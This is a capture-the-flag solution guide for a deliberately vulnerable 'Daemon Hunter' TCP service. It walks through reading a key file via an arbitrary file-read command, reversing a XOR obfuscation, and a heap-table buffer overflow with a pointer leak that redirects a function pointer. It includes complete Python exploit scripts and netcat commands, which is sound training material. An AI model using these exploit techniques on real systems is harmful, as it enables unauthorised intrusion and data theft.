









# Daemon Hunter

*Solution Guide*

A full solve of every step is given in `solve.py`. The Python script showcases and runs everything described in these steps.

 **Quick setup**

 ```bash
 # Point these at the target service (defaults shown)
 export TARGET_HOST=<vault IP address>
 export TARGET_PORT=1337
 ```

 The service speaks a tiny text protocol over TCP:

 - `GETPUB\n` → prints a hex blob prefixed by `PUBBLOBLEN:`
 - `PEEKFILE <path>\n` → prints `FILECONTENTS:` followed by the raw bytes of the file at `<path>`
 - `INFO\n` → prints `LEAK:<ptr>` (function pointer leak)
 - `UPLOAD\n` + `<u32 len>` + `<bytes>` → overflows `names[0]` into the handler table
 - `CALL <idx>\n` → calls `htable[idx]`

You’ll need: Python 3.8+, `nc` (netcat), and `openssl`.

---

## Step 1 — Recover the public token (and the key)

The server returns an obfuscated public blob. A 126‑byte key (split across two arrays `part_a[]` and `part_b[]` in `secret_parts.h`) repeats across the blob; XORing them recovers the public token. Keep the recovered key (hex) — you'll need it later.

**Quick peek (optional):**

```bash
# Just to see the hex blob come back from the service (not decrypted yet)
printf "GETPUB\n" | nc -nv "$TARGET_HOST" "$TARGET_PORT"
```



The blob has been XOR'd with a secret key, so it looks like meaningless hex rather than a readable token.

XOR encryption is symmetric. If the server encrypted the token by XOR'ing each byte with a key, then XOR'ing the encrypted output with that same key gives you back the original plaintext. The entire attack hinges on one thing: getting hold of the key.
Fortunately, the service exposes a command called PEEKFILE that lets you read files off the server — a classic file-read vulnerability. The key lives in a C header file called secret_parts.h, split across two arrays (part_a[] and part_b[], totaling 126 bytes). By reading that file, concatenating the two arrays, and XOR'ing them against the blob, you recover the token.

We can see the contents of `secret_parts.h ` by running:

```bash
printf "PEEKFILE secret_parts.h\n" | nc -nv $TARGET_HOST 1337
```



The Python script below automates the entire step. Here's what it does in order:

1. Connects to the service using the TARGET_HOST and TARGET_PORT environment variables (defaulting to 127.0.0.1:1337 if unset). The helper function cmd() opens a TCP socket, sends a command, collects the full response, and closes the connection — essentially a programmatic version of piping into netcat.
1. Reads the key file by sending PEEKFILE secret_parts.h. The response comes back with a FILECONTENTS: prefix followed by the raw C header. A regex function (arr()) searches for each array by name, extracts all the 0x__ hex byte values, and converts them to integers. It then concatenates part_a and part_b to form the full XOR key.
1. Fetches the obfuscated blob by sending GETPUB. It skips the PUBBLOBLEN header line, joins the remaining lines, and decodes the hex string into raw bytes.
1. Reverses the XOR by iterating through the blob byte-by-byte, XOR'ing each one against the corresponding key byte (cycling the key with modulo if the blob is longer than 126 bytes). The result is decoded to a UTF-8 string — your public token.

**One‑shot Python file solve1.py (standalone, prints token and key, change IP to your specific instance):**

```python
#!/usr/bin/env python3
import os, re, socket

HOST=os.environ.get("TARGET_HOST","127.0.0.1")
PORT=int(os.environ.get("TARGET_PORT","1337"))

def cmd(line, read_all=False):
    s=socket.create_connection((HOST,PORT),3)
    s.sendall(line.encode())
    s.settimeout(0.5)
    out=b""
    try:
        while True:
            c=s.recv(65536)
            if not c: break
            out+=c
    except Exception:
        pass
    s.close()
    return out

# 1) Pull secret_parts.h and rebuild the key
resp = cmd("PEEKFILE secret_parts.h\n", True)
hdr  = resp.split(b"FILECONTENTS:",1)[1]

def arr(name: bytes):
    m=re.search(rb"%s\s*\[\]\s*=\s*\{([^}]+)\}"%name, hdr, re.S)
    if not m:
        raise SystemExit("missing array "+name.decode())
    return [int(x,16) for x in re.findall(rb"0x([0-9A-Fa-f]{2})", m.group(1))]

key = bytes(arr(b"part_a") + arr(b"part_b"))

# 2) Request the obfuscated blob
out = cmd("GETPUB\n", True).decode(errors="ignore")
lines = [ln.strip() for ln in out.splitlines() if ln.strip()]
hexdata = "".join(lines[1:])  # skip PUBBLOBLEN header line
obf = bytes.fromhex(hexdata)

# 3) Deobfuscate
plain = bytes((obf[i] ^ key[i % len(key)]) for i in range(len(obf))).decode()

print("PUBLIC TOKEN:", plain)
print("KEY_HEX:", key.hex())
```

Running the python script with reveal the public token:

```bash
python3 solve1.py 
```



## Step 2 — Recover the encrypted token via exploitation

There is a deterministic overflow in `UPLOAD`:

- `names[8][0x200]` is followed by `htable[8]`
- `memcpy(reg->names[0], buf, nl)` can overflow into `htable`

The file `symbols.txt` (readable via `PEEKFILE symbols.txt\n`) contains symbol offsets and `overflow_offset`.

```bash
printf "PEEKFILE symbols.txt\n" | nc -nv $TARGET_HOST 1337
```



The key detail is that names and htable are adjacent in memory. The name slots come first, and the function pointer table sits directly after them.

When you send the UPLOAD command, the server reads your payload and copies it into names[0] using this line:

```c
memcpy(reg->names[0], buf, nl);
```

There's no bounds check on `nl` (the length you provide). If you send more than 4096 bytes (the total size of the names array), the extra bytes spill over into htable — overwriting the function pointers that the server calls when you send the CALL command.
This is the buffer overflow. You control what functions get called.

Here's the strategy, step by step:

1. Leak a runtime address. Send the INFO command. The server responds with LEAK:<address>, giving you the actual runtime address of dummy_handler (the default function in htable[0]). This is your anchor point.
1. Calculate the binary's base address. You know from symbols.txt what dummy_handler's offset is (its position relative to the start of the binary). Subtract that offset from the leaked runtime address, and you get the PIE base — the address where the binary was loaded into memory this session.
1. Calculate the target function's address. Add reveal_token2's offset (from symbols.txt) to the PIE base. Now you know exactly where reveal_token2 lives in memory right now. This is the function that prints the encrypted token.
1. Build the overflow payload. Create a buffer that's exactly long enough to fill up all of names (the overflow_offset value from symbols.txt tells you how many bytes that is), then append the address of reveal_token2 packed as a 64-bit little-endian value. This overwrites htable[0].
1. Trigger the hijacked function. Send CALL 0. The server looks up htable[0], which now points to reveal_token2 instead of dummy_handler, and executes it. The encrypted token gets printed back to you.


The following python script `solve2.py` demonstrates this:

```python
#!/usr/bin/env python3
import os, re, socket, struct

HOST=os.environ.get("TARGET_HOST","127.0.0.1")
PORT=int(os.environ.get("TARGET_PORT","1337"))

def recv_all(s, idle=0.6):
    s.settimeout(idle)
    out=b""
    while True:
        try:
            c=s.recv(65536)
            if not c: break
            out+=c
        except Exception:
            break
    return out

def cmd(line, read_all=False, extra=b""):
    s=socket.create_connection((HOST,PORT),3)
    s.sendall(line.encode() + extra)
    out = recv_all(s) if read_all else s.recv(4096)
    s.close()
    return out

def peek(path):
    out = cmd(f"PEEKFILE {path}\n", True)
    if b"FILECONTENTS:" not in out:
        raise SystemExit("PEEKFILE failed: "+out.decode(errors="ignore"))
    data = out.split(b"FILECONTENTS:",1)[1]
    if data.endswith(b"\n"): data=data[:-1]
    return data.decode(errors="ignore")

def parse_symbols(txt):
    d={}
    for ln in txt.splitlines():
        ln=ln.strip()
        if not ln or ":" not in ln: continue
        k,v=ln.split(":",1)
        if v.startswith("0x"):
            d[k]=int(v,16)
    return d

symbols = parse_symbols(peek("symbols.txt"))

# 1) Leak dummy_handler runtime address
info = cmd("INFO\n", True).decode(errors="ignore")
m = re.search(r"LEAK:(0x[0-9a-fA-F]+)", info)
if not m:
    raise SystemExit("No leak in INFO output: "+repr(info))
leak = int(m.group(1), 16)

# 2) Compute PIE base and target function address (Step 2 = reveal_token2)
base = leak - symbols["dummy_handler"]
target = base + symbols["reveal_token2"]

# 3) Build overflow payload that overwrites htable[0]
payload = b"A"*symbols["overflow_offset"] + struct.pack("<Q", target)

# 4) Send UPLOAD (line), length, payload, then CALL 0
s = socket.create_connection((HOST,PORT),3)
s.sendall(b"UPLOAD\n")
s.sendall(struct.pack("!I", len(payload)))
s.sendall(payload)
s.sendall(b"CALL 0\n")
out = recv_all(s).decode(errors="ignore")
s.close()

m = re.search(r"TOKEN2:(.+)", out)
if not m:
    raise SystemExit("Failed to extract encrypted token from: "+repr(out))
print("ENCRYPTED TOKEN:", m.group(1).strip())
```

You can run the script by invoking:

```bash
python3 solve2.py
```



## Step 3 — Recover the **Runtime token**

In Step 2, you looked up reveal_token2 in symbols.txt and computed its runtime address. This time, you'll look up reveal_runtime_token instead. Everything else — leaking the PIE base via INFO, calculating the offset, building the overflow payload, sending UPLOAD then CALL 0 — stays exactly the same.

Here's the key line that changes. In Step 2, you had:

```python
target = base + symbols["reveal_token2"]
```

In this step, it becomes:

```python
target = base + symbols["reveal_runtime_token"]
```

And instead of matching TOKEN2: in the server's response, you're now looking for RUNTIME_TOKEN:
```python
m = re.search(r"RUNTIME_TOKEN:(.+)", out)
```

That's it. Same exploit, different destination:

```python
#!/usr/bin/env python3
import os, re, socket, struct

HOST=os.environ.get("TARGET_HOST","127.0.0.1")
PORT=int(os.environ.get("TARGET_PORT","1337"))

def recv_all(s, idle=0.6):
    s.settimeout(idle)
    out=b""
    while True:
        try:
            c=s.recv(65536)
            if not c: break
            out+=c
        except Exception:
            break
    return out

def cmd(line, read_all=False, extra=b""):
    s=socket.create_connection((HOST,PORT),3)
    s.sendall(line.encode() + extra)
    out = recv_all(s) if read_all else s.recv(4096)
    s.close()
    return out

def peek(path):
    out = cmd(f"PEEKFILE {path}\n", True)
    if b"FILECONTENTS:" not in out:
        raise SystemExit("PEEKFILE failed: "+out.decode(errors="ignore"))
    data = out.split(b"FILECONTENTS:",1)[1]
    if data.endswith(b"\n"): data=data[:-1]
    return data.decode(errors="ignore")

def parse_symbols(txt):
    d={}
    for ln in txt.splitlines():
        ln=ln.strip()
        if not ln or ":" not in ln: continue
        k,v=ln.split(":",1)
        if v.startswith("0x"):
            d[k]=int(v,16)
    return d

symbols = parse_symbols(peek("symbols.txt"))

# 1) Leak dummy_handler runtime address
info = cmd("INFO\n", True).decode(errors="ignore")
m = re.search(r"LEAK:(0x[0-9a-fA-F]+)", info)
if not m:
    raise SystemExit("No leak in INFO output: "+repr(info))
leak = int(m.group(1), 16)

# 2) Compute PIE base and target function address (Step 3 = reveal_runtime_token)
base = leak - symbols["dummy_handler"]
target = base + symbols["reveal_runtime_token"]

# 3) Build overflow payload that overwrites htable[0]
payload = b"A"*symbols["overflow_offset"] + struct.pack("<Q", target)

# 4) Send UPLOAD (line), length, payload, then CALL 0
s = socket.create_connection((HOST,PORT),3)
s.sendall(b"UPLOAD\n")
s.sendall(struct.pack("!I", len(payload)))
s.sendall(payload)
s.sendall(b"CALL 0\n")
out = recv_all(s).decode(errors="ignore")
s.close()

m = re.search(r"RUNTIME_TOKEN:(.+)", out)
if not m:
    raise SystemExit("Failed to extract runtime token from: "+repr(out))
print("RUNTIME TOKEN:", m.group(1).strip())
```

For the purposes of demonstration, this script is saved as `solve3.py`:

```bash
python3 solve3.py
```



## Step 4 — Decrypt the **Secret‑file token**

The encrypted file, `token_secret_file.enc`, is sitting on the server's filesystem. You can pull it down with PEEKFILE just like any other file — but without the correct passphrase, the contents are unreadable. The passphrase is the hex-encoded key you recovered in Step 1 (KEY_HEX).

This step ties the challenge together: the XOR key you extracted in Step 1 isn't just useful for deobfuscating the public token — it doubles as the encryption passphrase for this file. That's why it was important to save KEY_HEX earlier.

When OpenSSL encrypts a file with a passphrase (using the -pass pass:... flag), it doesn't use the passphrase directly as the AES key. Instead, it runs the passphrase through a key derivation function that produces the actual 128-bit key and an initialization vector (IV). A random salt is also mixed in and stored at the beginning of the encrypted file. This means even if two files are encrypted with the same passphrase, the ciphertext will look different.

To decrypt, you need the same passphrase. OpenSSL reads the salt from the file, re-derives the key and IV, and reverses the encryption.

**Shell (using the key recovered in Step 1):**

If you try reading the file directly, you will see that it is not readable in the terminal:

```bash
printf "PEEKFILE token_secret_file.enc\n" | nc -nv "$TARGET_HOST" "$TARGET_PORT" 
```


If you didn't export KEY_HEX as an environment variable, replace $KEY_HEX with the actual hex string that Step 1 printed, or go back and run the Step 1 `solve1.py` script first:

```bash
export KEY_HEX="<paste the hex string from Step 1 here>"
```

**One‑shot Python solve4.py (standalone, derives key and calls OpenSSL for you):**

The script below handles everything: it pulls the encrypted file from the server, writes it to a temp file, and calls OpenSSL to decrypt it. It requires `KEY_HEX` to be set as an environment variable.

```python
#!/usr/bin/env python3
import os, socket, subprocess, tempfile

HOST=os.environ.get("TARGET_HOST","127.0.0.1")
PORT=int(os.environ.get("TARGET_PORT","1337"))
KEY_HEX=os.environ.get("KEY_HEX","")

if not KEY_HEX:
    raise SystemExit("Set KEY_HEX from Step 1 (e.g. export KEY_HEX=...)")

def recv_all(s, idle=0.6):
    s.settimeout(idle)
    out=b""
    while True:
        try:
            c=s.recv(65536)
            if not c: break
            out+=c
        except Exception:
            break
    return out

def peek_bin(path):
    s=socket.create_connection((HOST,PORT),3)
    s.sendall(f"PEEKFILE {path}\n".encode())
    out=recv_all(s)
    s.close()
    if b"FILECONTENTS:" not in out:
        raise SystemExit("PEEKFILE failed")
    data=out.split(b"FILECONTENTS:",1)[1]
    if data.endswith(b"\n"): data=data[:-1]
    return data

enc = peek_bin("token_secret_file.enc")

with tempfile.TemporaryDirectory() as td:
    encp=f"{td}/enc.bin"
    decp=f"{td}/dec.txt"
    open(encp,"wb").write(enc)
    cp = subprocess.run(
        ["openssl","enc","-d","-aes-128-cbc","-salt","-pass",f"pass:{KEY_HEX}","-in",encp,"-out",decp],
        stdout=subprocess.PIPE, stderr=subprocess.PIPE
    )
    if cp.returncode != 0:
        raise SystemExit("openssl failed: "+cp.stderr.decode(errors="ignore"))
    print("SECRET TOKEN:", open(decp,"r",encoding="utf-8",errors="ignore").read().strip())
```

You can run the script by invoking:

```bash
python3 solve4.py
```




## All‑in‑one (already provided)

You can run the full solver script directly. It performs all steps above and prints every recovered token along with the key (hex).

```bash
python3 solve.py
```

If the service is on a different host/port:

```bash
TARGET_HOST=172.18.0.3 TARGET_PORT=1337 python3 solve.py
```


